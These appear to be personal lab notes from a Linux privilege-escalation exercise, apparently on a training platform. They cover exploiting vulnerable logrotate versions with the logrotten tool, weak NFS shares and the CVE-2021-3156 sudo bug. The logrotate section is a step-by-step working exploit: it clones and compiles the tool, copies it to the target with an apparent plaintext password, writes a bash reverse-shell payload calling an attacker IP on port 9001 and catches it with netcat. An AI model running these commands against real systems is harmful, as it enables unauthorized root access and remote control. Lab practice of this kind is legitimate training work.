 
- logrotate must run as a privileged user or root
- vulnerable versions:
3.8.6
3.11.0
3.15.0
3.18.0

### Exploit

git clone https://github.com/whotwagner/logrotten.git
scp -r logrotten barry@10.129.122.218:/home/barry/logrotten/
i_l0ve_s3cur1ty!

cd logrotten
gcc logrotten.c -o logrotten
echo 'bash -i >& /dev/tcp/10.10.15.118/9001 0>&1' > payload

On our attack host :s
nc -nlvp 9001

./logrotten -p ./payload /home/htb-student/backups/access.log
Waiting for rotating /home/htb-student/backups/access.log...

echo 11 > /var/log/tomcat9/catalina.out

Renamed /home/htb-student/backups with /home/htb-student/backups2 and created symlink to /etc/bash_completion.d
Waiting 1 seconds before writing payload...
Done!

nc -nlvp 9001


## Weak NFS Privileges

showmount -e 10.129.122.218

Command 'showmount' not found, but can be installed with:

apt install nfs-common
Please ask your administrator.

# Vulnerability

CVE-2021-3156 affects :

1.8.31 - Ubuntu 20.04
1.8.27 - Debian 10
1.9.2 - Fedora 33
and others

1) Find version :

sudo -V | head -n1
Sudo version 1.8.31
